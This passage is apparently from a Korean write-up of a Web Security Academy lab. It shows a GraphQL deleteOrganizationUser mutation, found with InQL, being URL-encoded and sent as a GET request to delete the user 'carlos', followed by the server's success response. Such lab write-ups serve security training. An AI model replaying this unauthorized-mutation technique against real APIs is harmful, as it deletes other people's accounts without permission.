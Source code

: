 ## carlos 유저 삭제 

9. InQL에서 얻어낸 정보중에서 deleteOrganizationUser쿼리를 사용해서 carlos유저를 삭제한다. 

```
mutation {
    deleteOrganizationUser(input: DeleteOrganizationUserInput) {
        user {
            id
            username
        }
    }
}
```

파라메터 DeleteOrganizationUserInput를 변수직접입력 방식으로 바꾸면 `{id:3}`이 된다. 

```
mutation {
	deleteOrganizationUser(input:{id:3}) {
		user {
			id
		}
	}
}
```

10. 이 것을 URL인코딩해서 서버에 보낸다. 

```http
GET /api?query=mutation%20%7B%0A%09deleteOrganizationUser(input%3A%7Bid%3A3%7D)%20%7B%0A%09%09user%20%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D HTTP/2
Host: 0ac2001703bb09f680a89f98001d0088.web-security-academy.net
...
```

그러면 유저 삭제에 성공했다는 메세지가 반환된다. 

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=G2FKEMzMPJSRUvKR6LF0FbuFYW4qXZyD; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 97

{
  "data": {
    "deleteOrganizationUser": {
      "user": {
        "id": 3
      }
    }
  }
}
```
